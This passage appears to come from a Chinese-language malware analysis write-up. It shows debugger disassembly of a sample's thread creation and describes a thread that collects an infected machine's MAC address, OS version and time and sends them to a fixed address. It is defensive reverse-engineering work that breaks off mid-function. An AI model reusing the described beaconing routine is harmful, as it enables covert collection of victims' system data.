   00400DB4  |.  FF15 48044000 call    dword ptr [<&KERNEL32.SetFileAttributesA>]  ; \SetFileAttributesA
  00400DBA  |>  5E            pop     esi
  00400DBB  |.  33C0          xor     eax, eax
  00400DBD  |.  5B            pop     ebx
  00400DBE  |.  C9            leave
  00400DBF  \.  C3            retn

  7C80B50B    50              push    eax
  7C80B50C    E8 98170000     call    ExitThread
  7C80B511    90              nop

  退出了线程，此时我们重新加载，取消所有断点，再次来到

  00400A86  |.  50            push    eax                                         ; /pThreadId
  00400A87  |.  57            push    edi                                         ; |CreationFlags
  00400A88  |.  57            push    edi                                         ; |pThreadParm
  00400A89  |.  68 C00C4000   push    00400CC0                                    ; |ThreadFunction = 11063046.00400CC0
  00400A8E  |.  57            push    edi                                         ; |StackSize
  00400A8F  |.  57            push    edi                                         ; |pSecurity
  00400A90  |.  FFD6          call    esi                                         ; \CreateThread
  00400A92  |.  8B1D 1C044000 mov     ebx, dword ptr [<&KERNEL32.WaitForSingleObj>;  kernel32.WaitForSingleObject
  00400A98  |.  68 E8030000   push    3E8                                         ; /Timeout = 1000. ms
  00400A9D  |.  50            push    eax                                         ; |hObject
  00400A9E  |.  FFD3          call    ebx                                         ; \WaitForSingleObject

  00400AA3  |.  50            push    eax                                         ; /pThreadId
  00400AA4  |.  57            push    edi                                         ; |CreationFlags
  00400AA5  |.  57            push    edi                                         ; |pThreadParm
  00400AA6  |.  68 320B4000   push    00400B32                                    ; |ThreadFunction = 11063046.00400B32
  00400AAB  |.  57            push    edi                                         ; |StackSize
  00400AAC  |.  57            push    edi                                         ; |pSecurity
  00400AAD  |.  FFD6          call    esi                                         ; \CreateThread
  00400AAF  |.  68 E8030000   push    3E8                                         ; /Timeout = 1000. ms
  00400AB4  |.  50            push    eax                                         ; |hObject
  00400AB5  |.  FFD3          call    ebx                                         ; \WaitForSingleObject
  00400AB7  |.  E8 AF040000   call    00400F6B
  00400ABC  |.  5E            pop     esi
  00400ABD  |.  33C0          xor     eax, eax
  00400ABF  |.  5B            pop     ebx
  00400AC0  |>  5F            pop     edi
  00400AC1  |.  C9            leave
  00400AC2  \.  C3            retn
（12）创建新线程，统计本地感染机器的网卡地址、系统版本和时间，将这些信息发送到指定的地址。
  我们用同样的办法来到第二个线程函数的入口地址。
  00400B32  /.  55            push    ebp
  00400B33  |.  8BEC          mov     ebp, esp
  00400B35  |.  81EC 18030000 sub     esp, 318
